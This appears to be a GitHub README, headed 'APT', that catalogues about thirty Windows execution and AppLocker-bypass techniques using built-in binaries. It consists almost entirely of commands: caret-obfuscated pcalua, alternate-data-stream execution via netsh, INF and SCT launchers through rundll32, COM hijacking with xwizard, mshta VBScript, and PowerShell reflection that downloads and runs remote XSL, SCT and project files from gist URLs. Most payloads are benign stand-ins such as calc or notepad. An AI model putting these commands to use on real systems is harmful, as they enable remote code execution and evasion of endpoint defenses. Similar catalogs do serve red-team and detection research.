 #######################
|                     #
|        APT          #
|                     #
#######################


( 1 ) Use Pcalua 
```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a calc.exe
```

( 2 )  Alternate Data Streams ADS:>

```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

( 3 ) pnputil.exe Launcher .INF:> Note This Eveything here .INF Work on My Script INFscript Only !
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install

&- My Code INFScript Injection Command Line 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```
( 4 ) INFDefaultInstall Launch Execute INFScript 
```
INFDefaultInstall.exe C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 5 ) setupapi.dll Launch Execute My INFScript 
```
setupapi.dll,InstallHinfSection DefaultInstall 132 C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 6 ) DLL Execution Using ( Wave.Reflection ) In CPLEx AccessibilityCPL RegServer
```
&- Add Values in HKLM Name File ms-settings in Open/Shell/Command
&- rundll32 accessibilitycpl.dll,DllRegisterServer 
&- rundll32 shell32.dll,Control_RunDLL "C:\Windows\tem32\desk.cpl"
```
( 7 ) Language LUA in Files .wlua
```
wlua.exe C:\testing.wlua
&- Hello World Exe My Code LUA
https://gist.githubusercontent.com/homjxi0e/bbd218dea9bf63fd36524b9777a399f3/raw/888f7e484651fdb733d6261ca002d684a6e5bf9b/Test.wlua
```

( 8 ) SCT ScriptLet Execution in My INFScript
```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
&- Raw Code 
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
```

( 9 ) Jscript Execute Code Via ( Eval,VSA,) 
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JSCript')
$attack = 'var invokeMethod = new ActiveXObject("WScript.Shell");invokeMethod.Run("notepad.exe")'
[Microsoft.JScript.Eval]::JScriptEvaluate($attack,[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
&- Code Execute
https://gist.githubusercontent.com/homjxi0e/0d683007bd4a3ce39d3e19342aaa68ec/raw/4c8709382280de158b99dd78f91875e32a54bac4/ATPSJScript
```

( 10 ) MSI Launch Execution ( MsiExec.exe ) 
```
 msiexec.exe /passive /i C:\testing.msi /norestart 
 &- File MSI Hello World Exe in .MSI 
```

( 10v1 ) COM Component object Model Hijacking
```
&- Add Reg in System 
https://gist.githubusercontent.com/homjxi0e/8e42aa716361dc41b1c45a314bea501c/raw/327104671eebad1361210524f34076503e6b8e44/COM-hijacking.reg
&- You can now Execution invoke-CLSID Via xwizard.exe
xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
```
( 10v2 ) Execute VBScript Via mshta.exe
```
&- Execute VBScript Code using mshta.exe
mshta.exe VBScript:Close(Execute("Set S=CreateObject(""WScript.Shell""):If S.AppActivate(""maybe-Run"")=False Then:S.Run(""C:\Windows\system32\Calc.exe""):End If"))
https://gist.githubusercontent.com/homjxi0e/eb16d75f3db6d6081648f2c5c5c98c3b/raw/0870f7553095dcf6519f93c1cf72c6415468140b/VBSExC
```

( 10v3 ) forfiles.exe Execution Endless 
```
forfiles.exe /c calc.exe

```
( 10v4 ) Lateral Movement Using COM Object Hijacking 
```
 $COMEx = [Activator]::CreateInstance([type]::GetTypeFromCLSID("{00000001-0000-0000-0000-0000FEEDACDC} "))
 https://gist.github.com/homjxi0e/95aeb250b5290b27804cbe983af91085
```

( 10v5 )ScriptRunner.exe Execution 
```
ScriptRunner.exe -appvscript C:\Windows\System32\calc.exe
```

(Note) Product Via @bohops 

( 11 ) HTA Launch Execution ( url.dll ) 
```
Rundll32.exe url.dll,OpenURL FileHTA Or Anything 
```
( 12 ) SCT Launch Execution InSide INFScript ( ieadvpack.dll )  
```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1, 
```

( 13 ) XML Launch Execution Via Reflection,Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.Build');
$proj = [System.Xml.XmlReader]::create("https://gist.githubusercontent.com/caseysmithrc/8e58d11bc99e496a19424fbe5a99175f/raw/38256d70b414f6678005366efc86009c562948c6/xslt2.proj")
$e=new-object Microsoft.Build.Evaluation.Project($proj); 
$e.build();
```
( 14 ) CSharp Launch Execution Via Reflection.Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('http://Microsoft.Build '); $e=new-object http://Microsoft.Build.Evaluation.Project('evil.csproj'); $e.Build();
```
( 15 ) SCT Execution Via INFScript By ( advpack.dll )

```
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
```
( 16 ) XML Launch Execution Via Reader XML,Transform Object Powershell 
```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xsl',$s,$r);$x.Transform('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xml','z');del z;
```

( 17 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.VisualBasic )

```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …').Exec(0)

```

( 18 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.JScript )
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

( 19 ) Commandline APT Launch Execution Applocker/Bypassing Via ( CL_LoadAssembly )

```
import-module C:\windows\diagnostics\system\AERO\CL_LoadAssembly.ps1
LoadAssemblyFromPath C:\Windows\System32\calc.exe
```

( 20 ) HTA Launch Execution Via ( shdocvw.dll ) 

```
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```

( 21 ) HTA Launch Execution Via ( ieframe.dll ) 

```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
```
( 22 ) Commandline Execute Via  Vshadow.exe
```
 Vshadow exec calc.exe
 ```
 
 ( 23 ) CSharp Execution Via ProjectInstance RA Powershell
 ```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.Build')
$p="c:\test\test.csproj"
$e=new-object Microsoft.Build.Execution.ProjectInstance($p)
$e.build()
```
